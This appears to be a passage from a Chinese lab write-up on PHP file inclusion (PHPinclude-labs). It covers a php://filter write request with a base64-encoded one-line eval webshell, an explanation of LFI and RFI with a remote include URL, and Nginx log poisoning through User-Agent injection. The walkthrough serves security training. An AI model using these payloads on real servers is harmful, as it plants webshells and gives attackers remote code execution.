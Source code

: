 ![image-20240806112106652](./assets/image-20240806112106652.png)

对内容填充两个字符后可以使前方无效后方正常解析。

**GET**:`?filename=php://filter/write=convert.base64-decode/resource=shell.php`

**POST**:`data=aaPD9waHAgQGV2YWwoJF9QT1NUWydhdyddKTsgPz4`



### Level 12 LFI&&RFI

LFI - Local File Inclusion, 本地文件包含: 打开并包含本地文件的行为,比如我们后面会接触的日志文件包含，session文件包含，FilterChain等等。

本地文件包含是最常见的文件包含漏洞，在前面关卡中几乎所有的演示都是LFI（比如包含phpinfo.txt，backdoor.txt这样的行为）。

try ?wrappers=https://gitee.com/Probius/PHPinclude-labs/raw/main/RFI

RFI-  Remote File Inclusion,远程文件包含: 读取并执行远程服务器上文件的行为，相比于LFI，远程服务器上文件的可控性更高，因此危害更高，但代价就是条件苛刻，十分依赖 allow_url_include 参数。 HTTP/HTTPS 协议是最直观的远程文件包含形式，当然一定意义上，使用data协议去生成字符串然后包含也是一种远程文件包含。

### Level 13 LFI_日志文件包含\_Nginx

访问日志文件，可以成功读取

bp抓包尝试user-agent注入phpinfo成功

写入一句话木马

后台链接
